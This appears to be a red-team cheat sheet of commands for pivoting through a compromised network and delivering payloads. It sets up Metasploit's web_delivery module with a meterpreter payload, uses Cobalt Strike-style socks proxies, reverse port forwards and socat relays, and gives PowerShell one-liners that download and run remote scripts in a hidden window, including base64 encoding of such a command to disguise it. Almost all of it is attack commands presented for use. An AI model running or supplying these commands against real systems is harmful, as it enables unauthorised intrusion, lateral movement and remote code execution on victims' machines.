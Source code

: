 
### Metasploit
```
portfwd add -R -p 8080 -L 192.168.100.166 -l 443
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2
msf5 exploit(multi/script/web_delivery) > set SRVHOST 192.168.100.166
msf5 exploit(multi/script/web_delivery) > set SRVPORT 443
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/script/web_delivery) > set EXITFUNC thread
msf5 exploit(multi/script/web_delivery) > set URIPATH /msf.ps1
msf5 exploit(multi/script/web_delivery) > exploit -j
``

### CS
```
socks 1080

rportfwd 8080 192.168.100.166 443

proxychains socat TCP4-Listen:1433,fork TCP:10.10.120.20:1433

PS C:\Users\Commando> $OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://wkstn-1555:8080/a')"
PS C:\Users\Commando> [System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))

```

### RDP
```
socks 1337
proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389

rportfwd 8080 178.62.56.134 80

powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))"


```

